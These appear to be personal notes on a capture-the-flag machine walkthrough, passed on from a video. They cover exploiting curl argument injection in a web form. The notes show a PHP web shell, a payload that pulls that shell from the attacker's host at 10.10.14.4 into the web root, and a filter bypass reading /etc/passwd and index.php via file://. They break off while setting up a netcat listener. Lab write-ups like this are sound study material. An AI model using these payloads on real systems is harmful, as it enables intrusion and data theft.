 - The reason we're doing this is because we know it's using curl and therefore system commands
- Knowing it's a curl command followed by URL, he tries: `url=-x+POST+http%3A%2F%2F10.10.14.4%`
- Error message: `Only protocols http or https allowed.`
- Clearly expecting the 'string' to start with `http` or `https` so moves it to the end `url=http%3A%2F%2F10.10.14.4%3A4444/-x+POST`
- Doesn't work - realises it's capital X: `url=http%3A%2F%2F10.10.14.4%3A4444/-+X+POST` (Lowercase x is for proxy)
- And we see we can inject arguments into curl, evidenced by the POST which we asked curl to do with -X
```
┌──(root㉿kali)-[/home/jacob/Desktop/down/www]
└─# python3 -m http.server 4444                                                                                                                              
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
10.129.234.87 - - [05/Jul/2025 19:02:07] "POST / HTTP/1.1" 501 - <------ HERE
```
- Goes to: `https://gtfobins.github.io/` and searches for curl: `https://gtfobins.github.io/#curl`
- Makes a `shell.php` locally, `vi shell.php':
```
<?php$
system($_REQUEST['cmd']);$
?>$
```
- Start python webserver again
```
┌──(root㉿kali)-[/home/jacob/Desktop/down/www]
└─# python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
```
- New URL: `url=http%3A%2F%2F10.10.14.4%3A4444/shell.php+-o+/var/www/html/shell.php`
- Our server sees it with a 200:
```
┌──(root㉿kali)-[/home/jacob/Desktop/down/www]
└─# python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
10.129.234.87 - - [05/Jul/2025 19:16:21] "GET /shell.php HTTP/1.1" 200 -
```
- Now we see if we can hit by navigating to `http://10.129.234.87/shell.php`
- However, we get a 404 which means the user running the command doesn't have permissions to write into the HTML directory
- He looks for hosted images directory but clicking on images and watching the url for `/images/xyz.jpeg` because the user might have write access there.
- If you could, you'd drop the shell into that directory and execute it via the browser by going to `/images/shell.php` etc
- Since `-o` argument didn't give us much, back to the drawing board
- A command like `curl ippsec google.com` makes curl try `ippsec` then `google.com` so we can try something like `http://+<then anything we want>. (+ for URL encoded space)
- And curl can grab files so try: `url=http%3A%2F%2F+file:///etc/passwd` looking for file disclosure.
- So by beginning the url with HTTP/HTTPS, we bypass the previous error where it asked for only those two protocols, and then curl asked for the passwd file with `file:///etc/passwd`. Therefore the command really being run is `curl file:///etc/passwd` after we've bypassed the filter.
- And it returns the passwd file (Y) so we can read files
- Next: `url=http%3A%2F%2F+file:///proc/self/cwd/index.php` -- /proc/self/cwd/ is the current working directory.
	- /proc/ = Linux process filesystem
	- /proc/self/ = refers to the current process (whatever process is accessing it)
	- /proc/self/cwd/ = current working directory of that process
- `url=http%3A%2F%2F+file:///var/www/html/index.php` also returns the files, but incase it was not default, `/proc/self/cwd` does the job.
- He saves the output intop a html file, and then views it in the browser to make it more readable.
- Reverse engineers the index.php file to see how it was filtering, finds an 'expert mode' 
- Finds `/?expertmode=tcp` from looking at the HTML
- Tests it by entering his IP and port to a netcat listener
```
```